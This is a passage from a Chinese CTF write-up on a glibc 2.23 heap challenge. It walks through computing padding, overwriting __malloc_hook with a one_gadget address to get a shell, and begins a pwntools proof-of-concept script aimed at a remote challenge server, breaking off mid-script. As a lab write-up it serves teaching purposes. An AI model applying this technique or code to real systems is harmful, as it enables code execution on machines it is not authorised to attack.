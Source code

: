 [![image]()](undefined)

他们之间的差值为：0x13，即19

[![image]()](undefined)

那么我们的padding就是0x13，即对应payload：

```
payload = p8(0)*3
    payload += p64(0)*2
```

接着就是写入one\_gadget的地址到\_\_malloc\_hook的位子了，对应：

```
payload += p64(libc_base+0x4526a) # one_gadget的地址
```

one\_gadget的寻找:

[![image]()](undefined)

尝试几个后，还是libc\_base+0x4526a这个one\_gadget靠谱

## 9、getshell

再次调用malloc

```
allocate(p,255)
```

就会执行one\_gadget，即getshell

## 10、完整的Poc

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
context(arch="amd64",os="linux",log_level="debug")


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("node5.buuoj.cn",26330)

    return r

def allocate(p,size):
    p.sendlineafter(b'Command: ',b"1")
    p.sendlineafter(b'Size: ',str(size))

# 输入的内容（content）部分需要是字节类型
def fill(p,index,content):
    p.sendlineafter(b'Command: ',b"2")
    p.sendlineafter(b'Index: ',str(index))
    p.sendlineafter(b'Size: ',str(len(content)))
```